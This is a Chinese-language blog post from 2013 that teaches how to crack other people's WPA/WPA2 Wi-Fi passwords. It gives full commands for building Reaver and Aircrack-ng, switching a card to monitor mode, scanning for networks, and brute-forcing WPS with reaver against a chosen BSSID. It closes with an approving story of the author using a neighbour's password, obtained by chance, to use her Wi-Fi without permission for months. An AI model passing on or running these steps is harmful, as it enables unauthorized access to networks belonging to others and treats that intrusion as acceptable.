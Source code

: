 ```yaml
---
layout: post
title: "怎样黑 Wi-Fi 的 WPA/WPA2 密码？"
date: 2013-06-13 22:30
comments: true
categories: [WiFi, Network]
---
```


要破解一个 Wi-Fi 的登录密码有很多方法，本人有两次获取到一个 Wi-Fi 密码的成功经验，一次是用技术手段破解，另一次是无意中使用了社会工程学，在这里给大家分享一下。

## 技术手段
使用技术手段去获取一个 Wi-Fi 的登录密码不需要你成为一个网络工程师，你只需要一台(1)带无线网卡 - (2)装有 Linux 系统 - (3)能联网的电脑，再加上一小时左右的时间就足够了。这一小时的时间需要你跟着下面的步骤来安装并使用破解所需软件。我以 Ubuntu 操作系统为例作讲解。

P.S. 下面内容需要你有一些基本的 Linux 命令行操作知识。

#### 1、下载并安装 Reaver
你可以从 Reaver 的[网站](https://code.google.com/p/reaver-wps/ "reaver") 下载最新版的 Reaver。或者直接在终端里执行以下命令：

	wget https://reaver-wps.googlecode.com/files/reaver-1.4.tar.gz

解压 Reaver

	tar -xzvf reaver-1.4.tar.gz

编译安装 Reaver 前需要先安装一些编译依赖包

	sudo apt-get install build-essential libpcap-dev sqlite3 libsqlite3-dev libpcap0.8-dev

不用在意你的系统是否会重复安装已存在依赖包的，Ubuntu 会自动跳过已安装依赖包，其它系统请自行检查。

编译并安装 Reaver

	cd reaver-1.4
	cd src
	./configure
	make
	sudo make install

#### 2、下载并按装 Aircrack-ng
你可以从 Aircrack-ng 的[网站](http://aircrack-ng.org/ "Aircrack-ng") 下载最新版的 Aircrack-ng，或者直接在终端里执行以下命令：
	wget http://download.aircrack-ng.org/aircrack-ng-1.2-beta1.tar.gz

解压 Aircrack-ng
	tar -xzvf aircrack-ng-1.2-beta1.tar.gz

安装依赖包
	sudo apt-get install libssl-dev

编译并安装
	cd aircrack-ng-1.2-beta1
	make
	sudo make install

#### 3、使用 Aircrack-ng 和 Reaver 破解 WiFi
使用 `iwconfig` 命令来查看无线网卡接口，一般来说就是 `wlan0`。然后执行以下命令將无线网卡设置成监视模式
	sudo airmon-ng start wlan0

成功的话会看到 “**monitor mode enabled on mon0**” 的信息。

查看附近的无线网络
	sudo airodump-ng mon0

输出信息类似于：
	BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
	CX:7A:XX:2C:E6:XX  -60     189        1    0    7  54e  WPA  CCMP   PSK  Tenda_3CF670
	CX:XX:36:2F:1E:XX  -127    275     4416   310   7  54e. WPA  CCMP   PSK  Tenda_3C7D60

当搜索到若干无线网络后，按`<Ctrl+C>`停止搜索。复制某个无线网络的**BSSID**，然后就可以使用 Reaver 进行暴力破解了
	sudo reaver -i mon0 -b <BSSID> -vv

在 BSSID 中粘贴你之前复制的 BSSID，按回车后就可以开始破解了。然后你就可以约上三五知己出去玩半天，或者自己看两三部电影了——根据网络情况和电脑性能，破解一般需要4-10小时。

## 社会工程
那次对邻居小妹妹使用了社会工程获得她的 WiFi 密码也是无意为之的。事情经过大致是这样的：

我的无线网络有一天突然上不了网，重置路由器无数次还是不行。于是我就拿到邻居小妹那边测试看是不是路由器坏了。邻居小妹那个天真无邪啊，把宽带帐号密码和无线路由器密码都给了我来测试。我试了一段时间，路由器还是不能正常联网，我就判断我的59元路由器寿终正寝了，然后就失望地离开了邻家小妹家。

回到自己的出租屋里，突然醒悟邻家小妹的 WiFi 密码就是两个小写字母，后加123456，用手机搜到她家的 WiFi 后输入了密码，竟然就连上了！然后就果断蹭网蹭了好几个月。

**-EOF-**

版权声明：自由转载-非商用-非衍生-保持署名 | [Creative Commons BY-NC-ND 3.0](http://creativecommons.org/licenses/by-nc-nd/3.0/deed.zh "CC 3.0")

如果觉得本文对你有帮助，可付费支持作者 | <a href='http://me.alipay.com/zhaqiang'><img src='https://img.alipay.com/sys/personalprod/style/mc/btn-index.png' style="border:none;vertical-align:middle;"/></a>
